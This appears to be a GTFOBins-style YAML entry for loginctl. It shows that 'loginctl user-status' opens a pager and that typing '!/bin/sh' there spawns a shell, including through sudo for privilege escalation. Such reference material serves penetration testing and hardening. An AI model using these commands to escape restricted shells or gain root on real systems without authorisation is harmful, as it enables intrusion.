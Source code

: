 description: |
  This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.

  This might not work if run by unprivileged users depending on the system configuration.
functions:
  shell:
    - code: |
        loginctl user-status
        !/bin/sh
  sudo:
    - code: |
        sudo loginctl user-status
        !/bin/sh
---
